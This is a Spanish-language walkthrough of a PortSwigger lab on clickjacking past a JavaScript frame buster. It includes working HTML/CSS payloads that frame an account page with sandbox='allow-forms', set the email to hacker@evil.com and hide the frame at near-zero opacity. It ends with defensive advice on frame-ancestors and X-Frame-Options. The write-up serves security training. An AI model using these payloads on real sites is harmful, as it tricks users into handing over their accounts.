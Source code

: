 # Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Sabemos que se puede prellenar el valor del parámetro `email` tramitándolo por GET:
![image](https://github.com/user-attachments/assets/ea697154-6728-495b-b6a7-3fa0d3a5cad1)


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

Hacemos click en `Store` y luego en `View exploit`:
![image](https://github.com/user-attachments/assets/f29ed268-3e30-4360-98d6-5de2afa2b9cc)

Lo primero a resaltar es que no se activa el Frame Buster, no se activa el mensaje "This page cannot be framed”.

El paso siguiente sería bajar un poco más el texto `Click me` para hacerlo coincidir con el botón `Update email`:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

![image](https://github.com/user-attachments/assets/98c13fd5-1e2a-47d7-a432-bbc0a84da673)

El siguiente paso es bajarle la opacidad:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```
![image](https://github.com/user-attachments/assets/683016b4-3991-4c79-a90a-fc8f74279392)

Con este valor de opacidad logramos que el iframe sea imperceptible, el siguiente paso es nuevamente hacer clic en `Store` y luego clic en `Deliver exploit to victim` para resolver el laboratorio:
![image](https://github.com/user-attachments/assets/073bbae2-3e81-4aa8-b903-27162b8c6efa)

---
## ✅ Conclusiones

- Se logró ejecutar un ataque de Clickjacking a pesar de que la aplicación estaba protegida con un frame buster basado en JavaScript.
- El uso del atributo `sandbox="allow-forms"` en el iframe demostró ser efectivo para neutralizar el acceso al objeto `top`, evitando así la ejecución del script de defensa.
- La opacidad y el posicionamiento preciso fueron claves para engañar al usuario y superponer correctamente el botón malicioso.

---

## 🔐 Recomendaciones

- Implementar el header HTTP `Content-Security-Policy: frame-ancestors 'none';` o `X-Frame-Options: DENY` para prevenir cualquier intento de embebido, incluso en navegadores modernos.
- Evitar confiar únicamente en soluciones JavaScript para prevenir Clickjacking, ya que pueden ser fácilmente evadidas en contextos restringidos como iframes con sandbox.
- Considerar la validación de acciones sensibles (como cambiar un correo) con mecanismos adicionales como doble confirmación o reautenticación.

---

## 📚 Lecciones aprendidas

- Las protecciones del lado del cliente son fácilmente evadibles si no están reforzadas por mecanismos del lado del servidor.
- HTML y CSS pueden ser utilizados para construir ataques engañosos muy efectivos cuando se combinan con vulnerabilidades de diseño lógico.
- Conocer el comportamiento de los atributos de seguridad como `sandbox` permite evadir controles implementados de forma incompleta o incorrecta.
- La alineación visual y la manipulación del DOM son técnicas comunes en ataques de Clickjacking y deben ser tenidas en cuenta en cualquier análisis de seguridad front-end.





